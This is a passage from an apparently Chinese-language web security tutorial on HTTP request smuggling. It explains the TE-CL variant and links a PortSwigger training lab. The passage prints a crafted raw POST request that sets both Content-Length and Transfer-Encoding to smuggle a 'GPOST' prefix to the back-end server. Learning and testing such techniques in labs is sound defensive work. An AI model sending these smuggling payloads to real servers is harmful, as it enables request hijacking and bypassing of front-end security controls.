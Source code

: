 连续发送几次请求就可以获得该响应：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915143924.png-water_print](assets/1699409511-d99ee2151755765dd60adff33c50b44f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915143924.png-water_print")

### [](#24-te-cl)2.4 TE-CL

所谓 `TE-CL`，就是当收到存在两个请求头的请求包时，前端代理服务器处理 `Transfer-Encoding` 这一请求头，而后端服务器处理 `Content-Length` 请求头。

Lab 地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ac041f531eabd0cd804edb62000c0025.web-security-academy.net\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=3Eyiu83ZSygjzgAfyGPn8VdGbKw5ifew\r\n<br>Content-Length: 4\r\n<br>Transfer-Encoding: chunked\r\n<br>\r\n<br>12\r\n<br>GPOST / HTTP/1.1\r\n<br>\r\n<br>0\r\n<br>\r\n<br>``` |
